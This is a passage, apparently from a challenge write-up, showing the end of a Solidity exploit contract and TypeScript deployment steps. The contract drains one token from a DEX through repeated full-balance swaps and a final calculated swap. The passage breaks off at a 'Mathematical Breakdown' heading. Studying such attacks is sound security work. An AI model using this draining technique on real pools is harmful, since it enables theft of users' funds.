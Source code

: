 ```solidity
        // Swap 3: All token1 -> token2
        swapAll(token1, token2);
        
        // Swap 4: All token2 -> token1
        swapAll(token2, token1);
        
        // Swap 5: All token1 -> token2
        swapAll(token1, token2);
        
        // Swap 6: Final drain - swap exact amount to drain token1
        uint256 dexToken1Balance = IERC20(token1).balanceOf(dex);
        uint256 dexToken2Balance = IERC20(token2).balanceOf(dex);
        
        // Calculate exact amount needed to drain token1
        uint256 amountToSwap = dexToken2Balance;
        
        IDex(dex).swap(token2, token1, amountToSwap);
    }

    function swapAll(address from, address to) internal {
        uint256 balance = IERC20(from).balanceOf(address(this));
        IDex(dex).swap(from, to, balance);
    }
}
```

### How It Works - Step by Step

1. **Contract Deployment:**
   ```typescript
   // Deploy the exploit contract with the DEX address
   const dexExploit = await deploy("DexExploit", [dexAddress]);
   
   // Transfer initial tokens (10 of each)
   await token1.transfer(dexExploit.address, parseEther("10"));
   await token2.transfer(dexExploit.address, parseEther("10"));
   ```

2. **Execute the exploit:**
   ```typescript
   await dexExploit.exploit();
   ```

3. **The contract automatically:**
   - Approves the DEX to spend tokens
   - Swaps all token1 for token2 (5 times alternating)
   - Calculates the exact amount for the final drain
   - Executes the final swap to drain all token1

### Mathematical Breakdown

The key is understanding the integer division and how ratios change:
